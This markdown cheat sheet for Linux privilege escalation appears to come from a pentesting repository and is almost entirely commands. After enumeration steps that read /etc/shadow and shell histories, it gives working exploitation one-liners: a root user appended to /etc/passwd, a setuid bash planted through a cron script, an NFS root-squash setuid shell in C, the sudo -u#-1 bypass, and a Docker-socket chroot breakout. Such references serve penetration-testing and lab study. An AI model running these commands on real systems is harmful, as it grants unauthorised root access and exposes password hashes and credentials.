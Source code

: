 ## Linux Privilege Escalation
### Enumeration
-> Get system distribution and version
```
cat /etc/*-release
```

-> Get kernel version
```
cat /proc/version   
uname -a
```

-> View variable environments 
```
env
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
cat ~/.zshrc
```

-> View user command history
```
cat ~/.bash_history
cat ~/.zsh_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
```

-> Services
```
ps -aux
cat /etc/service
```

-> View network interfaces and connections
```
ifconfig
ip addr
```

-> Get DNS resolver and hosts mapped to an IP
```
cat /etc/resolv.conf
cat /etc/hosts
```

-> Get system user, group and password information
```
cat /etc/passwd
cat /etc/shadow
```

### Crontab [PrivEsc]
-> Enumeration  
```
cat /var/log/cron.log                                                                                                                                              
cat /etc/crontab
```

-> Exploitation  
```
echo "chmod +s /bin/bash" >> script.sh
```

### SUID [PrivEsc]
-> Enumeration 
```
find / -perm -u=s -type f 2>/dev/null
```
-> Exploitation  
https://gtfobins.github.io/

### Capabilities [PrivEsc]
-> Enumeration  
```
getcap -r / 2>/dev/null
```
-> Exploitation  
https://gtfobins.github.io/

### Binary with Sudo [PrivEsc]
```
sudo -l
```
or  
```
cat /etc/sudoers
```
-> Exploitation  
https://gtfobins.github.io/

### Weak File Permissions / Passwd Writabble [PrivEsc]
-> Enumeration  
```
ls -la /etc/passwd
ls -la /etc/shadow

```
-> Exploitation  
```
echo "okays:$(openssl passwd okay2):0:0:root:/root:/usr/bin/bash" >> /etc/passwd
```

### NFS Root Squashing
-> Detection - VM Owned
``` 
cat /etc/exports
```

-> Viewing nfs directories with access - Attacker VM
```
showmount -e <ip>
```

-> Get nfs version - Attacker VM
```
rpcinfo <ip>
```

-> Mount - Attacker VM
```
mkdir /tmp/1
mount -o rw,vers=2 <ip>:/<nfs_directory> /tmp/1
```

-> Creating and compiling file for privesc - Attacker VM
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
gcc /tmp/1/x.c -o /tmp/1/x
chmod +s /tmp/1/x
```

-> Exploitation - VM Owned
```
/tmp/x
 id
```

### sudo < v1.28 - @sickrov [PrivEsc]
```
sudo -u#-1 /bin/bash
```

### Docker Breakout [PrivEsc]
-> Search the socket
```
find / -name docker.sock 2>/dev/null
```
-> list images  
```
docker images
```
-> Exploitation
```
docker run -it -v /:/host/ <image>:<tag> chroot /host/ bash
```

### Linux Enumeration Tools [PrivEsc]

-> Linpeas
```
./linpeas.sh
```
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

-> linux-exploit-suggester
```
./linux-exploit-suggester.sh
```
or  
```
./linux-exploit-suiggester.sh --uname <uname-string>
```
https://github.com/The-Z-Labs/linux-exploit-suggester

-> Unix Privesc Check
```
./unix-privesc-check
```
https://pentestmonkey.net/tools/audit/unix-privesc-check
